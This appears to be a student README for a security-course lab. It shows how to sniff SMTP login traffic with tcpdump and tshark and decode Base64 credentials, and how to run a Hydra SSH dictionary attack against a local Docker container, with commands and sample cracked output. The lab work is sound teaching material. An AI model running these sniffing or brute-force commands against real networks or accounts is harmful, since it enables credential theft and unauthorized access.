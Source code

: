 # alx-attack_is_the_best_defense
A repo for the optional project Attack is the best defense

## Task 0: ARP Spoofing and Sniffing Unencrypted Traffic

### Prerequisites
Before proceeding, ensure you have the required tools installed:

1. **Download the Program:**
   - Download the provided program:
     ```bash
     curl -O https://s3.amazonaws.com/intranet-projects-files/holbertonschool-sysadmin_devops/264/user_authenticating_into_server
     ```

2. **Install `tcpdump`:**
   - Update your package list:
     ```bash
     sudo apt-get update
     ```
   - Install `tcpdump`:
     ```bash
     sudo apt-get install tcpdump
     ```

3. **Install `tshark`:**
   - Install `tshark` for more human-readable output:
     ```bash
     sudo apt install tshark
     ```

### Intercepting Data
Now you're ready to intercept data between the `user_authenticating_into_server` program and the SendGrid server.

1. **Run `tcpdump`:**
   - Execute the following command to capture network traffic:
     ```bash
     sudo tcpdump -i eth0 -n -s 0 -A 'host smtp.sendgrid.net and port 587' -w sendgrid_traffic.pcap
     ```
     - `-i eth0`: Replace `eth0` with the network interface your program uses.
     - `-n`: Display numeric IP addresses and port numbers instead of resolving hostnames and services.
     - `-s 0`: Capture the entire packet.
     - `-A`: Display packet data (payload) in ASCII format.
     - `'host smtp.sendgrid.net and port 587'`: Capture traffic to and from SendGrid's SMTP server on port 587.
     - `-w sendgrid_traffic.pcap`: Save captured packets to a file for later analysis.

2. **Run Your Program:**
   - In a second Ubuntu terminal, give permission and then run your program:
     ```bash
     sudo chmod +x user_authenticating_into_server
     sudo ./user_authenticating_into_server
     ```

3. **Capture and Analyze:**
   - Wait for your program to execute, then interrupt the first terminal using `CTRL-C`.
   - You'll have a `sendgrid_traffic.pcap` file that you can analyze.

### Analyzing the Capture
You can analyze the capture file using either `tcpdump` or `tshark`:

- Using `tcpdump`:
   ```bash
   tcpdump -r sendgrid_traffic.pcap
   ```
- Using `tshark` for more human-readable output:
  ```bash
  15 3.999733 172.31.145.221 → 54.228.39.88 SMTP 80 C: User: bXlsb2dpbg==
  16 4.069955 54.228.39.88 → 172.31.145.221 TCP 66 587 → 57152 [ACK] Seq=196 Ack=63 Win=32256 Len=0 TSval=2327286244 TSecr=1468075274
  17 4.069956 54.228.39.88 → 172.31.145.221 SMTP 84 S: 334 UGFzc3dvcmQ6
  18 4.070087 172.31.145.221 → 54.228.39.88 TCP 66 57152 → 587 [ACK] Seq=63 Ack=214 Win=64128 Len=0 TSval=1468075345 TSecr=2327286244
  19 6.001628 172.31.145.221 → 54.228.39.88 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
  ```
  
  This part of the output shows the authentication process with the information:
   
    User: bXlsb2dpbg==
  
    Pass: bXlwYXNzd29yZDk4OTgh

  Credentials are Base64 encoded, so the decoded information would be:
  
    User: mylogin
  
    Pass: mypassword9898!


## Task 1: Dictionary Attack

Performing a dictionary attack using Hydra to guess a password for an SSH account.

## Prerequisites

- Docker: [Install Docker](https://docs.docker.com/get-docker/)

## Setup

1. Pull and run the Docker image `sylvainkalache/264-1` with the following command:

    ```bash
    docker run -p 2222:22 -d -ti sylvainkalache/264-1
    ```

2. Start the Docker container by replacing `<container_id>` with the ID of the newly created `sylvainkalache/264-1` container:

    ```bash
    docker start -ai <container_id>
    ```

3. Install Hydra:

    ```bash
    sudo apt-get install hydra
    ```

4. Download a potential password list in `.txt` format. You can find one in the [SecLists library](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt).

5. To save time and resources, isolate passwords with 11 characters from your password list:

    ```bash
    grep -oE '\b\w{11}\b' all_passwords.txt > 11_char_passwords.txt
    ```

## Running the Attack

Run Hydra with the specified requirements:

```bash
hydra -l sylvain -P 11_char_passwords.txt ssh://127.0.0.1
```

### Explanation of Command Parameters:

- `-l sylvain`: Specifies the target username as "sylvain." This is the username for which you are attempting to guess the password.

- `-P 11_char_passwords.txt`: Specifies the password list or wordlist you are using for the attack. In this case, the wordlist contains passwords with 11 characters. Hydra will try each password from this list in an attempt to gain access to the SSH service.

- `ssh://127.0.0.1`: Specifies the target SSH service running on the local host (127.0.0.1). Hydra will attempt to log in to this SSH service using the provided username and the passwords from the wordlist.

Please practice patience as hydra tries every password in the file until it finds the right one. Once successful, it will return an output similar to:

```bash
[22][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
